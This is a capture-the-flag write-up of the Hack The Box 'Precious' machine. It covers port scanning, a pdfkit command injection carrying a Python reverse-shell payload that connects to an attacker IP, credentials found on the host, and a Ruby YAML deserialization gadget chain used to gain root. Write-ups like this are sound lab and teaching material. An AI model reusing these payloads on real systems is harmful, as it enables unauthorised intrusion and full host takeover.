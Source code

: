  theme: minima
 
 ![image](https://user-images.githubusercontent.com/87700008/205619578-28e109d5-9ede-4b75-95c0-fb74bc635c26.png)

https://app.hackthebox.com/machines/Precious

**Enumeration**:

_Rustscan_:

Started with a qucik Rustscan, found 3 open ports :

![image](https://user-images.githubusercontent.com/87700008/205620631-e8bad937-e8da-432e-b776-fab52239c64b.png)


    sudo rustscan -a 10.10.11.189 -- -A -T4 -vv -oN precious_nmap
    
    Open 10.10.11.189:22
    Open 10.10.11.189:80
    Open 10.10.11.189:8000
    
In the scan results there is a domain observed, i.e. http://precious.htb/

![image](https://user-images.githubusercontent.com/87700008/205621054-4212556d-c02c-4eeb-b170-41b379915db7.png)

So, to consolidate all results:

    On ports 80, nginx/1.18.0 is running
    On port 8000, SimpleHTTPServer 0.6 (Python 3.9.2) is running
    
Added the domain to the /etc/hosts file. After adding the domain browsed through that domain & found there is a website running to convert web page to PDF.
![image](https://user-images.githubusercontent.com/87700008/205623888-22706343-617f-434a-aec1-f55a1e35af90.png)

_Gobuster:_

Scanned the subdomain & vhost using gobuster but nothing found in both the scans:

![image](https://user-images.githubusercontent.com/87700008/205679805-8aa80909-6b18-4a91-ad67-c7b4896bae5d.png)
![image](https://user-images.githubusercontent.com/87700008/205679904-2647b99f-613f-4905-b878-5c9a297929c6.png)

As I didn't get any result from the gobuster scanning I tried some manual enumertaion & checked for the html source but nothing found there are well.😕

Then I thought to play with the webpage & started my own SimpleHttpServer on port 80 & in the parameter part I gave my own http server IP & clicked on submit.
Then the page redirected me to the PDF page of my directory :

![image](https://user-images.githubusercontent.com/87700008/205709502-88986f4c-3997-4ca4-a08c-ce4d9972df65.png)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Initial access:**

I downloaded the file from the page & checked for the metadata where I found the creator as "Generated by pdfkit v0.8.6":
![image](https://user-images.githubusercontent.com/87700008/205710041-713e2058-ed8f-45d4-9302-dd02e32798b1.png)
![image](https://user-images.githubusercontent.com/87700008/205710140-e3420cfd-24ae-443f-891b-4ca04621ff29.png)

I quickly searched for the exploit of "pdfkit 0.8.6" & landed on the page of an article with the PoC pubished by snyk mentioning the command injection vulnerability in the versions lower than 0.8.7, ref : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
![image](https://user-images.githubusercontent.com/87700008/205710574-556b8712-4458-49f9-94fc-d3af74763033.png)

So as per the article I tried the exploit from myself in this webpage & it's working :

![image](https://user-images.githubusercontent.com/87700008/205711050-746a9e5b-fbff-470e-a021-0cde0a578a0f.png)
![image](https://user-images.githubusercontent.com/87700008/205711105-ae626667-8af6-4d4e-8b58-cfb0d1506e9b.png)
 
 At this point we are confirmed that the page is vulnerbale to the command injection vulnerability.

 I tried different payload here for reverse shell & python3 payload worked for me :
 
    http://IP/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And I received the reverse shell :

![image](https://user-images.githubusercontent.com/87700008/205716608-5fa1a95c-a9ef-4fe5-91ba-37f75d7e0828.png)

Stablized the reverse shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export term=XTERM
    stty raw -echo; fg 
    
After searching many directories I found a directory located in ruby user folder name : '.bundle' in which I found another user 'henry' credentials:

![image](https://user-images.githubusercontent.com/87700008/205719193-a3d77efd-1d3e-402f-af69-3cfbdcf03a2e.png)

_User flag_ :

Using those credentials I quickly tried SSH & logged in successfully & retrieved the user flag 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205719767-ab5f9b34-0345-4c98-a65e-9659b8be91d9.png)
![image](https://user-images.githubusercontent.com/87700008/205719911-4e5caa98-3a16-49f9-ac23-0d8f0b7780c9.png)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Priv Esc:**

Now, as always I started with the manual enumeration & ran 'sudo -l', I got this :

    User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
    
Then I checked for the file content present in '/opt/update_dependencies.rb'. I am confused here at this point as there isn't anything present here whhich looks much helpful. 
Then with lot of searching I found a blog where it's mentioned some flaw in "Yaml.load" parameter which is also available in our file :

![image](https://user-images.githubusercontent.com/87700008/205723673-9d35da55-4701-4d33-be5b-50899f708684.png)
ref : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

This is vulnerable to "Yaml deserialization" attack:
![image](https://user-images.githubusercontent.com/87700008/205724218-37fec72d-5e49-40c9-b2d6-b6e56816cb6b.png)

I also found a PoC, ref : https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
So, I created a file name 'dependencies.yml' & used this code taken from the PoC :

    - !ruby/object:Gem::Installer
    i: x
    - !ruby/object:Gem::SpecFetcher
    i: y
    - !ruby/object:Gem::Requirement
    requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777"
         method_id: :resolve

_Root flag:_

And, ran the command :

    sudo /usr/bin/ruby /opt/update_dependencies.rb
    /bin/bash -p
    
This provided us the bash shell with root access 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205726452-39f4a812-6e1c-41b0-b8db-f4b09089985f.png)
